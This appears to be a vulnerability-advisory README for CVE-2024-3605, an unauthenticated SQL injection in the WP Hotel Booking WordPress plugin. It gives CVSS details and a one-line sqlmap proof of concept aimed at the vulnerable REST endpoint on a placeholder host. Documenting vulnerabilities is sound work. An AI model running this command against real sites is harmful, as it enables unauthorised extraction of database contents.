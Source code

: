# CVE-2024-3605
WP Hotel Booking <= 2.1.0 - Unauthenticated SQL Injection

# Description

The WP Hotel Booking plugin for WordPress is vulnerable to SQL Injection via the 'room_type' parameter of the /wphb/v1/rooms/search-rooms REST API endpoint in all versions up to, and including, 2.1.0 due to insufficient escaping on the user supplied parameter and lack of sufficient preparation on the existing SQL query.  This makes it possible for unauthenticated attackers to append additional SQL queries into already existing queries that can be used to extract sensitive information from the database.

## Details

- **Type**: plugin
- **Slug**: wp-hotel-booking
- **Affected Version**: 2.1.0
- **CVSS Score**: 10
- **CVSS Rating**: Critical
- **CVSS Vector**: CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:C/C:H/I:H/A:H
- **CVE**: CVE-2024-3605
- **Status**: Active

POC
---

```

sqlmap -u 'https://www.target.com/wp-json/wphb/v1/rooms/search-rooms?check_in_date=2025-01-01&check_out_date=2025-01-10&adults=4&max_child=0&paged=1&room_type=standard' --dbms='MySQL ' --random-agent
```
